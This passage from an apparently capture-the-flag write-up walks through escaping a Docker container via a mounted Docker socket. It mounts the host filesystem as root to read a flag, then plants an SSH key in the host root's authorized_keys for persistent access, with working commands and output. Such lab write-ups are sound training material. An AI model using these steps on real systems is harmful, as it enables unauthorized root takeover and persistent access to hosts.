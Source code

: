```console
...
```

We also notice that the Docker socket is mounted inside the container. 

```
volumes:
  - /var/run/docker.sock:/var/run/docker.sock
```

This allows us to interact with the Docker Engine and abuse it to escape the container.

Checking the available images first.

```console
root@02e849f307cc:/# docker image ls
REPOSITORY               TAG       IMAGE ID       CREATED         SIZE
padding-oracle-app_web   latest    cd6261dd9dda   2 months ago    1.01GB
<none>                   <none>    4187efabd0a5   2 months ago    704MB
gradle                   7-jdk11   d5954e1d9fa4   2 months ago    687MB
openjdk                  11        47a932d998b7   23 months ago   654MB
```

We can use any of the images to create a container with the host's file system mounted inside and get a shell on the new container, thus gaining access to the host's file system as the `root` user.

```console
root@02e849f307cc:/# docker run -v /:/host --rm -it openjdk:11 sh
# ls /host
bin   dev  flag.txt  lib    lib64   lost+found  mnt  proc  run   snap  sys  usr
boot  etc  home      lib32  libx32  media       opt  root  sbin  srv   tmp  var
```

And now that we have access to the host's file system, we can read the third flag at `/host/flag.txt` inside the container (`/flag.txt` on the host).

```
# wc -c /host/flag.txt
70 /host/flag.txt
```

While this is enough to complete the room, we can also get a shell on the host by writing an SSH key to `/host/root/.ssh/authorized_keys`.

Generating the SSH key.

```console
$ ssh-keygen -f root.key -t ed25519

$ cat root.key.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL0x8c79iWtvXf/qLkmix8RLS+0xGCNYLnD92bVSDzuE kali@kali
```

Writing it to `/host/root/.ssh/authorized_keys` inside the container. (`/root/.ssh/authorized_keys` on the host)

```console
# echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL0x8c79iWtvXf/qLkmix8RLS+0xGCNYLnD92bVSDzuE kali@kali' >> /host/root/.ssh/authorized_keys
```
{: .wrap }
